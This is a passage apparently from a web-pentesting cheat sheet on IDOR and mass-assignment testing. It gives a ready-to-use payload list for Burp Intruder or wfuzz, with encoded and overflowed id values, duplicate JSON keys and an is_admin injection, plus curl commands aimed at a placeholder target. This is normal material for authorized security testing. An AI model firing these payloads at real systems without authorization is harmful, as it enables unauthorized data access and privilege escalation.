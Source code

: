 Check whether server recalculates price from productId or trusts client-supplied amount.

---

## Ready-to-use payload list (for Burp Intruder / wfuzz)

Each line can be used as `{{PAYLOAD}}` replacing an id value in requests.

```
123
"123"
0123
"0123"
 123 
"123​"
9223372036854775807
-1
0
4.03e2
"MTIz"
%31%32%33
%2531%2532%2533
"١٢٣"
{"id":123}
{"user":{"id":123}}
user[id]=123
user%5Bid%5D=123
{"user":{"id":123}, "user":{"id":456}}
{"user":{"user_id":123}}
{"user":{"customer_id":123}}
{"user":{"id":123, "is_admin":true}}
{"id":123, "references":[{"id":789}]}
```

---

## Quick curl examples

```
curl -X POST -H "Content-Type: application/json" -d '{"user":{"id":123}}' https://target/endpoint
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'user[id]=123' https://target/endpoint
curl -X POST 'https://target/endpoint?user[id]=123' -H "Content-Type: application/json" -d '{"user":{"id":456}}'
curl -X POST -H "Content-Type: application/json" -d $'{"user":{"id":"123​"}}' https://target/endpoint
```

---

## Testing methodology (skeptical approach)
